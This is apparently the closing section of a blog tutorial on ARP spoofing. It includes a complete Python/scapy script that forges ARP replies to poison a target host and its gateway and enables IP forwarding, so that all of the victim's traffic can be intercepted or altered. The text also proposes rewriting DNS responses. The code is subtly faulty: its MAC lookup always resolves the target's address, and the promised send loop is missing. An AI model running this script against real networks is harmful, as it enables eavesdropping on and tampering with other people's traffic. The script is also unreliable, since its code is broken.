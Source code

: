 ![Our target 192.168.1.110 resolving padraig.io](./wireshark_dns.png)

## Where to go from here?

Now that we’ve positioned ourselves in between our target and and the gateway, we are now able to intercept all traffic. We could just snoop, intercept all DNS requests and change the response on the fly to our own domain, flip all unecrypted images upside down.

[In the next blog post, we’ll modify incoming DNS requests to redirect targets to our own domain.](/arp-spoofer-1)

## All the code!

```python{numberLines: true}
import time
from scapy.all import Ether, ARP, sendp, srp1
import os
import sys

gateway_ip = "192.168.1.1"
target_ip = "192.168.1.110"

def get_mac_from_ip(ip_address: str):
    # dst="ff:ff:ff:ff:ff:ff" broadcasts the request to the whole network
    ans = srp1(
        Ether(dst="ff:ff:ff:ff:ff:ff")
        / ARP(pdst=ip_address, hwdst="ff:ff:ff:ff:ff:ff"),
        timeout=2,
        verbose=0,
    )
    if ans:
        return ans.hwsrc
    else:
        return None

def resolve_ip(name: str, ip_address: str):
    print(f"Resolving MAC address for {name} {target_ip}")
    # Resolve the target's MAC address
    mac = get_mac_from_ip(target_ip)
    if mac == None:
        print(f"Unable to resolve IP address. Exiting!")
        sys.exit(0)
    print(f"Resolved to {mac}")
    return mac

# Resolve the MAC addresses
target_mac = resolve_ip("target", target_ip)
gateway_mac = resolve_ip("gateway", gateway_ip)
# Build the packets
target_packet = Ether(dst=target_mac) / ARP(
    op=2, psrc=gateway_ip, hwdst=target_mac, pdst=target_ip
)
router_packet = Ether(dst=gateway_mac) / ARP(
    op=2, psrc=target_ip, hwdst=gateway_mac, pdst=gateway_ip
)

os.system("sysctl -w net.ipv4.ip_forward=1")
# Loop forever and beacon packets
```